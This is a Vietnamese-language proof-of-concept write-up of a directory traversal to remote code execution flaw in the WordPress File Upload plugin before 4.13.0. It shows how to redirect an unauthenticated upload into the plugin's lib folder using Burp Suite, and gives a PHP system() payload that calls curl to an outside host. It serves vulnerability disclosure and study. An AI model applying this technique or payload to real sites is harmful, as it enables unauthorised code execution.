










# Directory traversal to RCE on WordPress File Upload plugin

Đây là một lỗ hổng trên WordPress File Upload plugin có version < 4.13.0. Lỗ hổng này cho phép attacker upload một file có chứa code độc hại vào thư mục wp-content/plugins/wp-file-upload/lib. Khi sử dụng plugin này thì tất cả các file trong thư mục này sẽ được load. Như vậy khi attacker up một file độc hại vào thư mục này thì file đó cũng sẽ được chạy(ko phân biệt định dạng).

Add plugin cho một bài viết



Truy cập vào website như một người dùng bình thường (ko cần login) ta thấy có chỗ để upload file



Thông thường khi upload ở đây thì file sẽ được lưu vào thư mục `wp-content/uploads`



Attacker có thể thay đổi đường dẫn để file được upload vào thư mục `wp-content/plugins/wp-file-upload/lib`

## Demo

Tạo một file với một đoạn code như sau để up lên. Có thể truyền vào code bất kỳ. Ở đây tôi dùng lệnh curl để tý tôi có thể xem log http access trên server 10.10.35.123 để dễ dàng nhận ra code đã được thực thi

```
<?php system("curl http://10.10.35.123/index.html"); ?>
```

Encode đường dẫn đến thư mục /lib



Chọn file chứa đoạn code bên trên để upload



Ở đây cần phải sửa một số thứ nên trên trình duyệt của tôi tôi sử dụng Burp Suite để chặn lại vùa sửa một số thứ

Thêm đường dẫn đã encode vào filename



Tiếp tục thêm vào uploadedfile_1_name



Tiếp tục thêm vào uploadedfile_1_name



Ta thấy đã upload thành công




Bây giờ truy cập vào server 10.10.35.123 để thực hiện tailf access_log và thực hiện load lại trang ta thấy log như sau:



Chứng tỏ đoạn code của chúng ta đã được thực thi.